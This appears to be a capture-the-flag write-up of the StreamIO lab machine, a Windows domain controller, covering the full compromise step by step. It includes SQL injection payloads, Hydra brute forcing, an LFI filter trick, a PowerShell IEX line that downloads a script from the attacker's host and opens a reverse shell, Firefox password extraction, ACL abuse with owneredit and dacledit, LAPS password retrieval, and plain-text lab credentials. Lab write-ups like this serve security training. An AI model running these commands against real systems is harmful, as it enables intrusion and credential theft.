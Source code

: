# Enumeration
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-20 23:19:27Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Not valid before: 2022-02-22T07:03:28
|_Not valid after:  2022-03-24T07:03:28
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2024-03-20T23:20:15+00:00; -17h02m32s from scanner time.
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

5985/tcp  open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf     .NET Message Framing
49667/tcp open  msrpc      Microsoft Windows RPC
49673/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc      Microsoft Windows RPC
49736/tcp open  msrpc      Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-03-20T23:19:36
|_  start_date: N/A
|_clock-skew: mean: -17h02m32s, deviation: 0s, median: -17h02m32s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

- Active directory
Trying to access the page and it doesn't load on http.
So trying https  https://watch.streamio.htb/
![](attachment/a281b3d3e9b26b262169abe6d6eb74f8.png)
Also https://streamio.htb
![](attachment/7b458931947a6bbd01b5201f2991d1c5.png)
Now using feroxbuster on both websites wit:
`feroxbuster -u https://streamio.htb -x php -o stream.htb.feroxbuster -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -k`

We discover https://watch.streamio.htb/search.php
Intercepting in burp suite.![](attachment/d26c7292820357ad48f34156d1377418.png)
We notice a POST field called q.

Now trying to fuzz it with FUFF for special characters.
Since it is a POST request need to set a header for content type.
```
ffuf -u https://watch.streamio.htb/search.php -d "q=FUZZ" -w /usr/share/seclists/Fuzzing/special-chars.txt -H 'Content-Type: application/x-www-form-urlencoded' -k
```
Now filtering lines we get:
![](attachment/6c6c947bf377268f4bb1c5b82ccea571.png)
Trying all these on browser we notice something unusual
Since ffuf sends all requests without url encoding the `&` response is pretty weird.

It seems there is a wildcard on both sides of the search request.
Might be like:
`select * from movies where title like '%[input]%';
or 
`select * from movies where CONTAINS (name, '*500*')l;`

To check:
![](attachment/d0e73a34171b6405a7d3524567baebc0.png)
We get the same result with `500%-- -` so it is the first type of `select * from movies where title like '%[input]%;`
Now to check how many columns we can use union.
![](attachment/a7e6ba81df79eed84564aaa8f94304e2.png)
There are 6 columns
Enumerating we find users:
![](attachment/0a212031f3414c4beed720d20b83883f.png)
We can use concat to concatenate multiple columns together:

Kerberoasting to find valid users:
![](attachment/d0f3224259a4424f9288da731fbfff36.png)
Testing xp_dirtrees![](attachment/411dbdf3f9be10ec86a334eaed598927.png)
We get a response so yeah it works.
Now using responder to get the hash:
![](attachment/3601e145d379e6f50aee4d301714c3d8.png)xp_cmdshell doesn't work
Checking with `500' EXEC xp_cmdshell 'ping 10.10.14.8';-- -`
and `sudo tcpdump -i tun0 icmp`
But it doesn't work

Now getting the username and password:
`500' union select 1,string_agg(concat(username,':',password),'|'),3,4,5,6 from users--`
And using hashcat:
`hashcat --user username_password.txt '/home/aditya/Documents/Kali/rockyou.txt'`
We get the passwords:
![](attachment/cb6a5c2997f808bbf6f2687a5620e5fc.png)Now trying this login in https://streamio.htb/login.php
Now trying hydra for the bruteforcing
`hydra -C creds.txt streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed" `
![](attachment/9aac8d744163d6744923bf16a7ea5284.png)
Now we can access admin panel
Trying to fuzz the parameters:
![](attachment/1f08cd043311f71e537d427e37c79715.png)
And remember we have the cookie
So using ` ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'https://streamio.htb/admin/?FUZZ=id' -H 'Cookie: PHPSESSID=cmedn0pjk13elk0051taff4v8a' -fw 85`
We found the debug parameter
Now trying index.php:
![](attachment/724e487a3bff04b425adb9ebb409d454.png)
We get an error. Now trying LFI
`https://streamio.htb/admin/?debug=php://filter/read=convert.base64-encode/resource=index.php`
We get the base64 encoded file.
index.php![](attachment/12fe109fa92897772c5ac47a3a79db32.png)
debug parameter includes any php file that is passed in.
master.php
![](attachment/0174f73513e66506682587cde62364fd.png)
In master.php if we have a post parameter called include we can execute the php content.

We can't directly execute code as it reads the content of the file passed through include parameter.

Now we can check if we can access the files through over python server
![](attachment/66f960d0b07acb9d70f35d4c3bcc9f19.png)
Now we have code execution
So using the conptyshell and using system command to execute it
`system("powershell IEX(IWR http://10.10.14.37/con.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.37 9001");`

We get a shell:
![](attachment/af2d9c3f0901a86960e96a4aeb07bbd2.png)

Since we had the password of db_admin from the index.php file we can use it here:![](attachment/a6e7d02ede2c5b6c99c6cc6feaeb4d12.png)
To access the sql database:
`sqlcmd -U db_admin -P 'B1@hx31234567890'`
![](attachment/fd0f2ba90f08b07b5dc5258229010404.png)
Now we found a password for an account that is on the pc.
`nikk37:get_dem_girls2@yahoo.com`

Logging in using evil-winrm and running winPeas
![](attachment/f55ee9980a096aeaada3e2dbe1b19e88.png)
We find a firefox db.

Downloading it:
![](attachment/3511d659adfe24814c8eeb0e2f0d441e.png)
`download br53rxeg.default-release`

Now using firepwd and copying logins.json and key4.db to the firepwd folder we get the passwords:
![](attachment/6349ed21c6a180c1a47e0a41b5e3d5da.png)Now adding it to our creds and using crackmapexec to try all passwords:
`cme smb streamio.htb -u users.txt -p pass.txt --no-bruteforce --continue-on-success`

We notice that the admin has the name JDgodd in their password which is also a username so trying it we get access:
![](attachment/4244105bbc5a1a7e9def45429f9313ec.png)
Running bloodhound.py 
`python3 bloodhound.py -d streamio.htb -u nikk37 -p get_dem_girls2@yahoo.com -dc dc.streamio.htb -ns 10.10.11.158 --dns-tcp -c all --zip`

Now we find a path in bloodhound![](attachment/ca1332c21e0dfb4c55df1165ecbfea74.png)
Now using owneredit:
`/owneredit.py -action write -new-owner 'JDgodd' -target 'CORE STAFF' 'streamio.htb'/'JDgodd':'JDg0dd1s@d0p3cr3@t0r'`
dacledit
`dacledit.py  -dc-ip 10.10.11.158 -principal JDgodd -target "CORE STAFF" -action write -rights FullControl streamio.htb/JDgodd`
adding member
`net rpc group addmem "CORE STAFF" "JDgodd" -U "streamio.htb"/"JDgodd"%"JDg0dd1s@d0p3cr3@t0r" -S dc.streamio.htb`
Getting LAPS password:
`./pyLAPS.py --action get -d streamio.htb -u JDgodd -p JDg0dd1s@d0p3cr3@t0r`

After getting the DC password we can get a winrm shell
`evil-winrm -i 10.10.11.158 -u administrator -p ClonWLdA]cK7u9`
![](attachment/07dbcdbfe566fed11352358210b77fee.png)